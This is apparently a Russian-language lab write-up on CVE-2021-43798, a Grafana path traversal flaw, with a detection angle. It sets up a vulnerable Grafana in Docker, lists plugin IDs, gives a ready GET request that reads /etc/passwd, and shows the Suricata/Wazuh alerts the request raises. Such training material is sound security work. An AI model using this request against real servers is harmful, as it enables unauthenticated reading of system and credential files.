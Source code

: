 # CVE-2021-43798

Grafana — это многоплатформенное веб-приложение для аналитики и интерактивной визуализации с открытым исходным кодом. В декабре 2021 года пользователь Twitter обнаружил уязвимость 0day, позволяющую злоумышленникам, не прошедшим проверку подлинности, использовать эту уязвимость для увеличения веб-пути и загрузки произвольных файлов через URL-адрес Grafana 8.x.

### Эксплуатация уязвимости

Для того, чтобы запустить уязвимый сервер Grafana 8.2.6, выполните команду&#x20;

`docker compose up -d`

После запуска сервера вы можете просмотреть страницу входа по адресу `http://ваш-ip:3000`, учетные данные для этой уязвимости отсутствуют.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Уязвимость вызвана модулем плагина, который может обслуживать статический файл внутри папки плагина. Но для обхода проверки злоумышленник может использовать `../`, чтобы перейти из папки плагина в родительскую папку и загрузить произвольные файлы. Чтобы проэксплуатировать данную уязвимость, вам необходимо знать действительный идентификатор плагина, например alertlist. Вот некоторые из распространенных идентификаторов плагина:

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

Отправьте следующий GET-запрос, чтобы прочитать файл /etc/passwd

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.130:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эскплуатации данной уязвимости и о выводе файла /etc/passwd в ответе на ваш запрос.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
